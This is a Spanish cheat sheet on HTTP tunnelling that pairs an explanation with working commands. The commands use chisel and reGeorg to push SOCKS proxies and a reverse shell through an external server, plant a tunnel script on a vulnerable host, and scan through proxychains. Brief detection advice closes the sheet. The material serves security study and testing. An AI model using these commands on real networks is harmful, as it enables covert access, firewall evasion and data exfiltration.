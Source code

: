 **Cheat Sheet: Tunelización HTTP**

---

### Concepto

La tunelización HTTP permite encapsular tráfico arbitrario (TCP, shell, etc.) dentro de solicitudes HTTP/HTTPS, 
evadiendo restricciones de firewall o proxies corporativos que permiten solo tráfico web.

### Flujo General

1. Cliente genera tráfico (por ejemplo, shell reverse o proxy SOCKS).
2. Este tráfico se encapsula en HTTP/HTTPS (usualmente POST/GET).
3. Se envía al servidor de tunelización (fuera de la red) que lo desencripta y reenvía.
4. Respuesta del servidor se encapsula también en HTTP y vuelve al cliente.

### Casos de Uso

* Exfiltración de datos desde una red interna.
* Acceso remoto encubierto.
* Evasión de firewalls o proxies que permiten solo puertos 80/443.

### Herramientas Populares

* `hts` (HTTP Tunnel Server/Client)
* `reGeorg` (proxy en túnel HTTP)
* `chisel` (túnel TCP en HTTP/HTTPS)
* `webshells` que usan canales HTTP

### Requisitos

* Salida HTTP/HTTPS permitida.
* Acceso a un servidor externo (VPS, C2) que reciba el túnel.
* Herramientas compatibles en ambos extremos.

### Ejemplos

#### Con `chisel`

**Servidor (afuera):**

```bash
chisel server -p 8080 --reverse
```

**Cliente (desde red restringida):**

```bash
chisel client http://<IP-externa>:8080 R:1080:socks
```

Esto crea un proxy SOCKS5 en 127.0.0.1:1080.

#### Con `reGeorg`

1. Subes el `reGeorg` tunnel.php a un servidor vulnerable.
2. En tu equipo:

```bash
python reGeorgSocksProxy.py -u http://victima/tunnel.php -p 1080
```

### Comandos Útiles

* Comprobar conectividad HTTP:

```bash
curl -I http://<destino>
```

* Proxychains con socks local:

```bash
proxychains nmap -sT -Pn -p 445 10.0.0.1
```

* Usar `chisel` como túnel inverso para una shell:

```bash
chisel client http://<servidor>:8080 R:4444:127.0.0.1:4444
```

### Indicadores de Actividad

* Tráfico HTTP saliente inusual.
* Uso frecuente de métodos POST grandes.
* Conexiones persistentes HTTP a un solo destino externo.

### Prevención y Detección

* Inspección profunda de paquetes (DPI).
* Análisis de comportamiento de tráfico.
* Bloqueo de binarios y herramientas conocidas.


